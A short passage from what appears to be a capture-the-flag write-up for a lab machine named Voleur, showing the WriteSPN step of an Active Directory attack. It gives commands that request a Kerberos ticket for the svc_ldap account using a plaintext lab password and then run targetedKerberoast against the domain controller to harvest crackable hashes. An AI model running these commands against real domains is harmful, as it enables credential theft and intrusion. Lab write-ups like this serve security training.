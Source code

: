 ![alt text](../assets/images/voleur11.png)

### WriteSPN

first lets get him TGT and export it

```bash
faketime "$(ntpdate -q voleur.htb | cut -d ' ' -f 1,2)" getTGT.py voleur.htb/svc_ldap:'M1XyC9pW7qT5Vn'
export KRB5CCNAME=svc_ldap.ccache 
```

and now lets run it ([targetekkerberoast](https://github.com/ShutdownRepo/targetedKerberoast))

```bash
faketime "$(ntpdate -q voleur.htb | cut -d ' ' -f 1,2)" python3 targetedKerberoast.py -k --dc-host DC.voleur.htb -u 'svc_ldap' -d voleur.htb
```

![alt text](../assets/images/voleur12.png)
